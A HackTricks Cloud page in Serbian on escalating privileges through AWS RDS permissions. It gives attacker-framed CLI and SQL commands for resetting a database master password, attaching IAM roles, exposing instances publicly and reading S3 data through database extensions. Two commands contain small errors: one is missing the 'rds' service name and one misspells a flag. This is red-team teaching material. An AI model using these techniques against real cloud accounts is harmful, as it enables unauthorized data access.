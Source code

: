 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relational Database Service

Za više informacija o RDS proverite:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Sa tom dozvolom napadač može **izmeniti lozinku glavnog korisnika**, i prijavu unutar baze podataka:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Biće potrebno da **kontaktirate bazu podataka** (obično su dostupne samo iz unutrašnjih mreža).
{% endhint %}

**Potencijalni uticaj:** Pronaći osetljive informacije unutar baza podataka.

### rds-db:connect

Prema [**dokumentaciji**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), korisnik sa ovom dozvolom može da se poveže na DB instancu.

### Zloupotreba RDS Role IAM dozvola

#### Postgresql (Aurora)

{% hint style="success" %}
Ako pokrenete **`SELECT datname FROM pg_database;`** i pronađete bazu podataka pod nazivom **`rdsadmin`**, znate da ste unutar **AWS postgresql baze podataka**.
{% endhint %}

Prvo možete proveriti da li je ova baza korišćena za pristup bilo kojoj drugoj AWS usluzi. To možete proveriti gledajući instalirane ekstenzije:
```sql
SELECT * FROM pg_extension;
```
Ako pronađete nešto poput **`aws_s3`**, možete pretpostaviti da ova baza podataka ima **neku vrstu pristupa S3** (postoje i druge ekstenzije kao što su **`aws_ml`** i **`aws_lambda`**).

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`**, možete videti da li **klaster ima neku IAM ulogu prikačenu** u polju **`AssociatedRoles`**. Ako ima, možete pretpostaviti da je baza podataka **pripremljena za pristup drugim AWS uslugama**. Na osnovu **imena uloge** (ili ako možete dobiti **dozvole** uloge) mogli biste **pretpostaviti** koji dodatni pristup baza podataka ima.

Sada, da biste **pročitali datoteku unutar bucket-a**, morate znati punu putanju. Možete je pročitati sa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ako imate **sirove AWS akreditive**, takođe ih možete koristiti za pristup S3 podacima sa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **ne mora da menja nijednu promenljivu u grupi parametara** da bi mogao da pristupi S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Unutar mysql-a, ako pokrenete upit **`SELECT User, Host FROM mysql.user;`** i postoji korisnik pod imenom **`rdsadmin`**, možete pretpostaviti da ste unutar **AWS RDS mysql db**.
{% endhint %}

Unutar mysql-a pokrenite **`show variables;`** i ako promenljive kao što su **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, imaju vrednosti, možete pretpostaviti da je baza podataka spremna za pristup S3 podacima.

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`**, možete proveriti da li klaster ima neku **povezanu ulogu**, što obično znači pristup AWS uslugama).

Sada, da biste **pročitali datoteku unutar bucket-a** potrebno je da znate punu putanju. Možete je pročitati sa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBCluster` i `iam:PassRole` može **dodati određenu ulogu postojećem RDS instanci**. Ovo bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili izmeni podatke unutar instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.\
Napomena da neki DB-ovi zahtevaju dodatne konfiguracije kao što je Mysql, koji treba da specificira ARN u grupama parametara.

### `rds:CreateDBInstance`

Samo sa ovom dozvolom napadač bi mogao da kreira **novu instancu unutar klastera** koji već postoji i ima **IAM ulogu** prikačenu. Neće moći da promeni lozinku glavnog korisnika, ali bi mogao da izloži novu instancu baze podataka internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Napadač sa dozvolama `rds:CreateDBInstance` i `iam:PassRole` može **napraviti novu RDS instancu sa određenom ulogom povezanu**. Napadač može zatim potencijalno **pristupiti osetljivim podacima** ili izmeniti podatke unutar instance.

{% hint style="warning" %}
Neki zahtevi za ulogu/profil instance koji treba povezati (iz [**ovde**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil mora postojati u vašem nalogu.
* Profil mora imati IAM ulogu koju Amazon EC2 ima dozvolu da preuzme.
* Ime profila instance i ime povezane IAM uloge moraju početi sa prefiksom `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBInstance` i `iam:PassRole` može **dodati određenu ulogu postojećoj RDS instanci**. To bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili izmeni podatke unutar instance.

{% hint style="warning" %}
DB instanca mora biti van klastera za ovo
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
